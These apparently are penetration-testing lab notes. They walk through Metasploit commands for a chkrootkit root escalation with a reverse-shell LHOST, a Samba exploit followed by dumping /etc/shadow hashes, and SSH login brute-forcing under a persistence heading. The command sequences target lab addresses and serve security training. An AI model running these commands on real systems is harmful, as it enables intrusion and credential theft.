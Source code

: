```bash
msf6> search chkrootkit
msf6> use exploit/unix/local/chkrootkit
msf6> set session 2
msf6> set lhost 192.167.22.2
msf6> set chkrootkit /bin/chkrootkit
msf6> run  # it can take 2 minutes

/bin/bash -i
root@victim-1> id  # root
```

#### Dump hashes with Hashdump

* We can dump Linux user hashes with the hashdump post exploitation module.
* Linux password hashes are stored in the /etc/shadow file and can only be accessed by the root user or a user with root privileges.
* The hashdump module can be used to dump the user account hashes from the `/etc/shadow` file and can also be used to unshadow the hashes for password cracking with **John The Ripper**.

```bash
kali@kali> service postgresql start && msfconsole

msf6> db_nmap -sV 192.197.141.3
msf6> use exploit/linux/samba/is_known_pipename
msf6> run
meterpreter> sysinfo
# CTRL+Z

msf6> sessions -u 1
msf6> sessions 2

msf6> use post/linux/gather/hashdump
msf6> set session 2
msf6> run
msf6> loot
```

#### Establishing persistence

* Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
* Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
* The persistence techniques we can utilize will depend on the target configuration.
* We can utilize various post exploitation persistence modules to ensure that we always have aaccess to the target system.

```bash
kali@kali> service postgresql start && msfconsole

msf6> setg rhosts 192.163.200.3
msf6> use auxiliary/scanner/ssh/ssh_login
msf6> set username jackie
msf6> set password password
msf6> run
# CTRL+Z

msf6> sessions -u 1
msf6> use exploit/unix/local/chkrootkit
msf6> set session 2
msf6> set chkrootkit /bin/chkrootkit
msf6> set lhost 192.163.200.2
msf6> run
# CTRL+Z

```